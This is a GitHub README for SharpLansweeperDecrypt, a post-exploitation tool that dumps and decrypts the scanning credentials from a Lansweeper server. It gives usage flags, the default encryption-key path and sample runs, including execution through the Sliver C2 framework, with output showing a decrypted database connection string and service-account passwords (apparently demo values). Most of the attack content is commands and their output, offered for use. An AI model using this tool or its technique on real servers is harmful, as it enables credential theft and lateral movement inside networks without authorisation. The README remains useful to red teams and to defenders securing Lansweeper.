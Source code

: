 # SharpLansweeperDecrypt

`SharpLansweeperDecrypt` is designed to automatically extract and decrypt all configured scanning credentials of a [Lansweeper](https://www.lansweeper.com) instance, provided there is local access to the server.

For manual decryption, the tool is capable of decrypting passwords when supplied with both the encrypted password and the encryption key (`C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`).


1. Automatically identifies and decrypts the database connection strings contained within Lansweeper's `web.config` file.
2. Utilizes the decrypted connection strings to query the Lansweeper SQL database, retrieving all configured `Scanning Credentials`.
3. Locates the `Encryption.txt` file on the disk, which Lansweeper uses for credential encryption.
4. Applies the encryption key to decrypt and display the scanning credentials.

## Usage
```
PS C:\Users\Yeeb\Downloads> .\SharpLansweeperDecrypt.exe -h
╔═╗┬ ┬┌─┐┬─┐┌─┐╦  ┌─┐┌┐┌┌─┐┬ ┬┌─┐┌─┐┌─┐┌─┐┬─┐╔╦╗┌─┐┌─┐┬─┐┬ ┬┌─┐┌┬┐
╚═╗├─┤├─┤├┬┘├─┘║  ├─┤│││└─┐│││├┤ ├┤ ├─┘├┤ ├┬┘ ║║├┤ │  ├┬┘└┬┘├─┘ │
╚═╝┴ ┴┴ ┴┴└─┴  ╩═╝┴ ┴┘└┘└─┘└┴┘└─┘└─┘┴  └─┘┴└─═╩╝└─┘└─┘┴└─ ┴ ┴   ┴

Usage:
  No arguments: Runs the program as is, decrypting web.config and connecting to the SQL database.
  -p <path>: Optional path to the encryption key. If not provided, a default path is used.
  -e <encryptedPassword>: Decrypts the provided encrypted password without decrypting web.config or connecting to the SQL database.
```

### Automatic Decryption

With no arguments specified the tool will try to automatically dump and decrypt all configured `Scanning Credentials`

```
sliver (maldev) > inline-execute-assembly tool/SharpLansweeperDecrypt.exe -

[*] Successfully executed inline-execute-assembly (coff-loader)
[*] Got output:
[+] Success - Wrote 12298 bytes to memory

╔═╗┬ ┬┌─┐┬─┐┌─┐╦  ┌─┐┌┐┌┌─┐┬ ┬┌─┐┌─┐┌─┐┌─┐┬─┐╔╦╗┌─┐┌─┐┬─┐┬ ┬┌─┐┌┬┐
╚═╗├─┤├─┤├┬┘├─┘║  ├─┤│││└─┐│││├┤ ├┤ ├─┘├┤ ├┬┘ ║║├┤ │  ├┬┘└┬┘├─┘ │
╚═╝┴ ┴┴ ┴┴└─┴  ╩═╝┴ ┴┘└┘└─┘└┴┘└─┘└─┘┴  └─┘┴└─═╩╝└─┘└─┘┴└─ ┴ ┴   ┴

[+] Loading web.config file...
[+] Decrypted connectionStrings section:
Using connectionString: Data Source=(localdb)\.\LSInstance;Initial Catalog=lansweeperdb;Integrated Security=False;User ID=lansweeperuser;Password=InfiniteVoid*GetoSuguru;Connect Timeout=10;Application Name="LsService Core .Net SqlClient Data Provider"
[+] Opening connection to the database...
[+] Retrieving credentials from the database...
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: SNMP-Private              │
│ Username:   SNMP Community String     │
│ Password:   private                   │
└───────────────────────────────────────┘
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: Global SNMP               │
│ Username:                             │
│ Password:   public                    │
└───────────────────────────────────────┘
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: Inventory Windows         │
│ Username:   SWEEP\svc_inventory_win   │
│ Password:   CursedEnergy$Itadori$     │
└───────────────────────────────────────┘
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: Inventory Linux           │
│ Username:   svc_inventory_lnx         │
│ Password:   CurseExorcist#Gojo!       │
└───────────────────────────────────────┘
[+] Database connection closed.

[+] inlineExecute-Assembly Finished
```
### Manual Decryption
Sould the `web.config` file be undecryptable or access to the SQL service be unavailable, `SharpLansweeperDecrypt` offers a manual decryption option using the `-e` flag. In cases where the encryption key's path is not explicitly provided with the `-p` flag, the tool defaults to using `C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`.

```PS C:\Users\Yeeb\Downloads> .\SharpLansweeperDecrypt.exe -e 'fuVE63qSVMPbuSnYUdUE+MuRpn8t/PXyLnMUb4gfDew='
╔═╗┬ ┬┌─┐┬─┐┌─┐╦  ┌─┐┌┐┌┌─┐┬ ┬┌─┐┌─┐┌─┐┌─┐┬─┐╔╦╗┌─┐┌─┐┬─┐┬ ┬┌─┐┌┬┐
╚═╗├─┤├─┤├┬┘├─┘║  ├─┤│││└─┐│││├┤ ├┤ ├─┘├┤ ├┬┘ ║║├┤ │  ├┬┘└┬┘├─┘ │
╚═╝┴ ┴┴ ┴┴└─┴  ╩═╝┴ ┴┘└┘└─┘└┴┘└─┘└─┘┴  └─┘┴└─═╩╝└─┘└─┘┴└─ ┴ ┴   ┴

Decrypted Password: ForbiddenTechnique#DomainExpansion
```

### Powershell
In addition to the C# version, this repository also includes a PowerShell script, `LansweeperDecrypt.ps1`, which automates the process of dumping and decrypting Lansweeper credentials. 

## Compilation
Ensure your C# development environment (e.g., .NET SDK, Visual Studio) is set up correctly. The project requires the `System.Configuration.ConfigurationManager`.

```sh
dotnet add package System.Configuration.ConfigurationManager
```

Alternatively, if you're using Visual Studio, you can manage NuGet packages for your project and add `System.Configuration.ConfigurationManager` from there.

## Acknowledgments

Special thanks to the [LansweeperPasswordRecovery](https://github.com/GoSecure/LansweeperPasswordRecovery) repository for providing guidance on how to decrypt Lansweeper Scanning Credentials.

---

*The script is for informational and educational purposes only. The author and contributors of this script are not responsible for any misuse or damage caused by this tool.* <!-- meme -->
